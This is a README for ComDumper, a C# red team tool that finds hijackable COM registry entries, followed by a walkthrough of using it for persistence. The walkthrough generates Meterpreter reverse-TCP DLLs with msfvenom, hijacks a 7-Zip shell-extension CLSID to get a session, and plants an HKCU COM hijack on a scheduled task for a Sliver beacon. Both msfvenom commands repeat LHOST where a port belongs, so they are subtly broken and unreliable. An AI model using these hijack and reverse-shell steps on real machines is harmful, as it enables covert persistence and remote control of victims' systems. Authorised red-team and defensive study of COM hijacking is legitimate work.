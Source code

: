# ComDumper

A Simple C# red team tool to enumerate and analyze COM registry objects for hijackable entries, missing binary paths, access control misconfigurations, and simulate persistence via registry modification.
For more details about COM exploitation demos, take a look at my [blog](https://yokaiswikie.gitbook.io/com-object-enumeration/).
## Compiling code using VS csc compiler

```powershell
csc /r:System.DirectoryServices.AccountManagement.dll ComDumperV.cs /out:ComDumper.exe
```
## Usage

![image](https://github.com/user-attachments/assets/f9120ac3-23bd-4ce0-a9d7-bb893ca6f537)

## Features

### Search and Dump CLSIDs

- `-sA`: Scan and dump all COM CLSIDs from the registry.
- Supports limiting the number of results with `-n <number>`.
- Output can be saved as a CSV file (`-o <file>`) or printed verbosely with `--verbose`.
  ```powershell
  .\ComDumper.exe -sA --verbose -n 2
  ```
![image](https://github.com/user-attachments/assets/1179ab96-24a0-4b42-86b7-e0809c8969fa)

dumping all COM CLSIDs to a CSV file
```powershell
.\ComDumper.exe -sA -o comCLSIDs.csv
```
![image](https://github.com/user-attachments/assets/de0ffc1f-512e-4498-99cf-aa074a004a40)

### Filtering Options for Search Results

- `-fg <group>`: Filter entries by registry group.
- `-fu <user>`: Filter entries writable by a specific user (e.g., `BUILTIN\Users`).
- `-fa <access>`: Filter entries based on access control.
- `-fo <owner>`: Filter entries by registry key owner.
- `--filter-access <string>`: Filter entries by partial access control string.
- `--missing` / `-m`: Filter entries where the COM server file (DLL or EXE) is missing from disk.
- `--vulnerable`: Filter entries considered vulnerable (missing or hijackable).
- `--hijackable`: Filter entries that are hijackable.
- `--unresolvedsid`: Filter entries with unresolved SIDs (e.g., `S-1-5-*`).
- 
Some filters, like missing, are better used when you have admin access while looking for persistence entries. Otherwise, they can sometimes falsely report files as missing simply because the program doesn’t have permission to read privileged locations like C:\Windows\System32\.

hunting for FullControl Access over a COM object we can use filters
```powershell
 .\ComDumper.exe -sA --verbose  -fa "FullControl" -fu "ippyokai"
```
Note that the user filter `-fu` also checks the group memberships of the user. Since my `ippyokai` user is a local admin, it will have a lot of FullControl access rights.
We can search for the explicit Write access for a user as follows or using regx.
```powershell
 .\ComDumper.exe -sA --verbose  -fa "COMMANDO\ippyokai (FullControl)"
```
![image](https://github.com/user-attachments/assets/92f120a3-3c63-485e-9c99-43f285713476)

### Individual CLSID Search

- `-s --clsid <CLSID>`: Query detailed information about a specific CLSID.
 From the previous example, we can take the 7-Zip shell extension CLSID `{23170F69-40C1-278A-1000-000100020000}` to get more info.
![image](https://github.com/user-attachments/assets/f4c5d3d0-6d4e-4e4f-aa29-d5e7b665d41f)

### Exploit Mode

- `-e --clsid <CLSID> --dll <path>`: Replace the COM DLL path in the registry for the specified CLSID.
- `-e --clsid <CLSID> --exe <path>`: Replace the COM EXE path in the registry for the specified CLSID.
- `--hkcu`: Apply the hijack under the current user registry hive (HKCU) instead of the local machine hive (HKLM).
For exploit mode, it’s simple: without --hkcu, the tool changes the registry entry to the given DLL or EXE. With the --hkcu option, it performs a hijack by adding a registry entry under HKCU to override the DLL from HKLM. Be careful to create a proper DLL that proxies calls to the original one to maintain system functionality. You can use FaceDancer, as I demonstrated in my blog.

We can create a simple proof of concept here since we have FullControl over the 7-Zip shell extension COM registry.
generate first a simple dll with  `msfvenome`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.136.138 LHOST=4444 -f dll -o shell.dll
```
Adding the dll. `ComDumper` backup it automaticaly so you can recover it later.
![image](https://github.com/user-attachments/assets/1c6b6196-004f-47da-a8f8-510de25985b7)

By navigating to a folder containing ZIP files, we can observe that `explorer.exe` loads `shell.dll`.
![image](https://github.com/user-attachments/assets/0bf130b5-aa07-48df-bebe-cfe1cedfcedc)

we have got meterpreter session.
![image](https://github.com/user-attachments/assets/737e31ff-e43d-44d2-9382-9279409a733d)

now we can recover it back.
![image](https://github.com/user-attachments/assets/43240580-fb13-46f9-8f2e-13a241b948fc)

For `--hkcu` mode, we can enumerate COM objects used by scheduled tasks using the [Get-ScheduledTaskComHandler.ps1]()https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Get-ScheduledTaskComHandler.ps1 script, created by Matt Nelson and Matthew Graeber. I will might add a C# class to enumerate scheduled tasks later.

```powershell
. .\Get-ScheduledTaskComHandler
Get-ScheduledTaskComHandler -PersistenceLocations
```
We can take an example for this mode using `CacheTask`.
![image](https://github.com/user-attachments/assets/802b8c81-ed06-4cef-9ad7-f450a07c94f9)

We can verify that the entry comes from HKLM.
![image](https://github.com/user-attachments/assets/c6d32948-1398-4348-9d24-fa32e4a3a17c)

Generate a DLL as in the previous step.
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.136.138 LHOST=8443 -f dll -o Rabbit.dll
```

Now I'm going to use this DLL as a staged payload for Sliver C2. check too with out `--hkcu` we have got access denied cause can't write to HKLM directly.
![image](https://github.com/user-attachments/assets/7ce118a8-56c5-495c-a672-3317d4c0f9b5)

Re-login with any user, and the beacon call will be triggered.
![image](https://github.com/user-attachments/assets/27b44d28-1f1e-4dd2-adee-e1446dafc6fe)

Clean up again just remove the entry.
```powershell
$clsid = '{0358B920-0AC7-461F-98F4-58E32CD89148}'
$path = "HKCU:\Software\Classes\CLSID\$clsid"

if (Test-Path $path) {
    Remove-Item -Path $path -Recurse -Force
    Write-Host "[+] COM hijack removed from HKCU for CLSID $clsid"
} else {
    Write-Host "[-] No COM hijack found under HKCU for CLSID $clsid"
}
```

---

## 📚 References & Acknowledgements

I would like to acknowledge and thank the authors and contributors of the following outstanding resources and blogs that greatly enhanced my understanding of COM abuse techniques and persistence mechanisms:

- **Fakroud, Mohamed** – Playing Around COM Objects - Part 1, Red Teaming Dojo  
  https://mohamed-fakroud.gitbook.io/red-teamings-dojo/windows-internals/playing-around-com-objects-part-1

- **DerbyCon 2019** – COM Hijacking Techniques, Slideshare presentation  
  https://www.slideshare.net/slideshow/com-hijacking-techniques-derbycon-2019/169871173

- **SpecterOps Team** – Revisiting COM Hijacking, SpecterOps Blog (May 28, 2025)  
  https://specterops.io/blog/2025/05/28/revisiting-com-hijacking/

- **PentestLab Team** – Persistence: COM Hijacking, PentestLab Blog (May 20, 2020)  
  https://pentestlab.blog/2020/05/20/persistence-com-hijacking/

These resources provided valuable insights, technical deep-dives, and practical examples that were instrumental in shaping the development of this tool and the learning journey behind it.


